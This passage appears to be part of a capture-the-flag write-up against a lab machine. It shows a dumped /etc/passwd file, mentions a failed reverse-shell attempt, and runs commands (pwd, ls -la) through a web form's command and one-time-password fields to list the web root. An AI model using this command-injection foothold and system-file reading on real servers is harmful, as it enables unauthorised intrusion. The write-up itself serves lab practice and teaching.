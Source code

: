 ```
        ----------------
<pre>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
libstoragemgmt:x:998:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ldap:x:55:55:OpenLDAP server:/var/lib/ldap:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
ldapuser:x:1000:1000::/home/ldapuser:/bin/bash
</pre>
        ----------------
         Removed Output
        ----------------
```
#### We can see that `ldapuser` is an actual user on the box, I tried to get a reverse shell but for some reason I couldn't get a reverse shell at all so I started to look in the web files. I was already in the web directory :
```
inputCmd=pwd&inputOTP=14546713

/var/www/html
```
#### I listed the files :
```
inputCmd=ls -la&inputOTP=14546713

total 36
drwxr-xr-x. 6 root   root    176 Oct 23  2018 .
drwxr-xr-x. 4 root   root     33 Jun 27  2018 ..
-rw-r--r--. 1 root   root      0 Jul 20 00:03 banned.txt
-rw-r-----. 1 root   apache 1424 Oct 23  2018 cover.css
drwxr-x--x. 2 root   apache 4096 Oct 23  2018 css
drwxr-x--x. 4 root   apache   27 Oct 23  2018 dist
-rw-r-----. 1 root   apache 2592 Oct 23  2018 index.html
drwxr-x--x. 2 root   apache  242 Oct 23  2018 js
-rw-r-----. 1 root   apache 5021 Oct 23  2018 login.php
-rw-r-----. 1 root   apache   68 Oct 23  2018 logout.php
-rw-r-----. 1 root   apache 5245 Oct 23  2018 page.php
-rw-r-----. 1 root   apache 2324 Oct 23  2018 status.php
drwxr-x--x. 2 apache apache    6 Oct 23  2018 uploads
```